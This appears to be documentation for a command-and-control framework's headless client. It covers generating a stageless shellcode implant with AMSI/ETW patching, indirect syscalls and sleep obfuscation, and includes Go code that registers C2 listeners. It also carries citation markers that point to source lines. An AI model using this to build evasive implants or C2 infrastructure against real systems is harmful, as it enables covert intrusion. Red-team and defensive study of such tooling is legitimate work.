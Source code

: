 Use the `demon-create` command to step through the stageless build flow without touching the Qt dialogs. 【F:teamserver/cmd/head
less/headless.go†L693-L770】 The wizard pre-populates the demon request with the provided agent settings, letting you tweak any 
field before the package is dispatched:

- **Listener:** `AS13_Listener`
- **Agent / Format / Arch:** Demon, `Windows Shellcode`, `x64`
- **Sleep / Jitter:** 5 seconds with 35% jitter
- **Sleep technique:** `Ekko`, **sleep jump gadget:** `None`
- **Stack duplication:** enabled
- **Proxy loading:** `RtlCreateTimer`
- **Indirect syscall:** enabled
- **Amsi/Etw patch:** `Hardware breakpoints`
- **Injection defaults:** `Native/Syscall` allocation and execution with Notepad spawn stubs for x64/x86

After confirmation the client marshals the JSON config, submits `Gate.Stageless`, and announces the build request on the log str
eam. 【F:teamserver/cmd/headless/headless.go†L745-L770】 Monitor the console (or run with `--no-prompt`) to capture the base64 pa
yload that follows. 【F:teamserver/cmd/headless/headless.go†L70-L108】【F:teamserver/cmd/headless/headless.go†L252-L320】

## Creating listeners programmatically

The GUI collects listener parameters (name, protocol, bind address, host rotation, headers, URIs, and proxy settings) and serialises them into the `Listener.Add` payload. 【F:client/src/UserInterface/Dialogs/Listener.cc†L618-L698】 The teamserver stores the config and immediately broadcasts a summary package back to every session. 【F:teamserver/cmd/server/listener.go†L220-L333】

Automation can reuse the headless client's `submitListenerAdd` helper directly—either by feeding the wizard defaults from `defaultListenerConfig()` or by composing a map manually: 【F:teamserver/cmd/headless/headless.go†L575-L691】

```go
cfg := defaultListenerConfig()
cfg.Name = "training-listener"
cfg.Hosts = "c2.company.tld"

info := map[string]any{
    "Name":          cfg.Name,
    "Protocol":      cfg.Protocol,
    "Status":        "online",
    "Secure":        "true",
    "Hosts":         cfg.Hosts,
    "HostBind":      cfg.HostBind,
    "HostRotation":  cfg.HostRotation,
    "PortBind":      cfg.PortBind,
    "PortConn":      cfg.PortConn,
    "Headers":       cfg.Headers,
    "Uris":          cfg.Uris,
    "UserAgent":     cfg.UserAgent,
    "HostHeader":    cfg.HostHeader,
    "Proxy Enabled": strconv.FormatBool(cfg.ProxyEnabled),
}

if err := client.submitListenerAdd(info); err != nil {
    log.Fatal(err)
}
```
